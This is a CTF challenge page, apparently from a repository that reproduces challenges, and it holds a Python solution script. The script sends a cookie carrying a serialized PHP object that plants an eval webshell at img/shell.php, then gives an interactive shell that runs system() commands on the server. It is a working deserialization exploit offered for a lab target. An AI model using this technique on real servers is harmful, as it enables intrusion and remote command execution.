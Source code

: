 #### Goals
 * RCE and try to find the flag

#### Server Address
 * http://web.sniperoj.com:10011/

#### Solution
```python
#!/usr/bin/env python

import requests

if len(sys.argv) != 3:
    print "Usage: "
    print "\tpython %s [HOST] [PORT]" % (sys.argv[0])
    exit(1)

host = sys.argv[1]
port = int(sys.argv[2])

url = "http://%s:%d/" % (host, port)

print "[+] Writing shell to target site..."
webshell = "%simg/shell.php" % (url)

session = requests.Session()

cookies = {
    "drawing":"Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoyNzoiL3Zhci93d3cvaHRtbC9pbWcvc2hlbGwucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6MjQ6Ijw/cGhwIGV2YWwoJF9QT1NUW2NdKTs/PiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjI0OiI8P3BocCBldmFsKCRfUE9TVFtjXSk7Pz4iO30=",
}

response = session.get(url, cookies=cookies)

if response.status_code == 500: # ??? Why 500 ???
    print "[+] Web shell uploaded!"
else:
    print "[-] Failed!"
    exit(1)

print "[+] Entering Interactive mode..."

while True:
    command = raw_input("[+] Please input your command : ")
    if command.lower() == "exit":
        break
    data = {
        'c':"system('%s');" % (command),
    }
    response = requests.post(webshell, data = data)
    print "[+] Ok! Result : "
    print response.content
```

#### Writeups
 * TODO

## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（wangyihanger@gmail.com）
